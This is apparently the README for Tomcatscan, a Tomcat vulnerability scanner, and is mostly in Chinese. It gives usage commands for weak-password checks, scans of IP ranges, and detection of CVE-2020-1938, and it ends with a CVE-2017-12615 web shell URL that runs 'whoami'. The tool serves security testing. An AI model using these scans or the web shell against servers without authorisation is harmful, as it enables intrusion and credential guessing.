 # Tomcatscan
Tomcat common vulnerability detection

python3 Tomcatscan.py -u xxx -p xx  //对指定端口进行漏洞探测以及弱口令检测，同时会检测8009端口cve-2020-1938漏洞

![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/1.png)

python TomcatScan.py -H 192.168.1.1-192.168.2.255 //默认检测8080，8081，80，443，8009端口，如需深入探测，可以先利用信息收集工具收集tomcat url保存到文件中后通过 -f参数检测


python TomcatScan.py -f url.txt

#-f 参数 文件中ip的几种格式：

http://192.168.1.1:8080 ##检测8080端口，同时检测8009端口是否存在cve_2020_1938

http://192.168.1.1          ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

https://192.168.1.1         ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1                   ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1:8080         ##检测8080端口和443端口，同时检测8009端口是否存在cve_2020_1938


弱口令检测请在dict目录添加用户名密码字典


cve-2017-12615 shell利用：访问并执行命令
![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/2.png)

http://192.168.3.137:8080/1635405387.jsp?&pwd=023&cmd=whoami
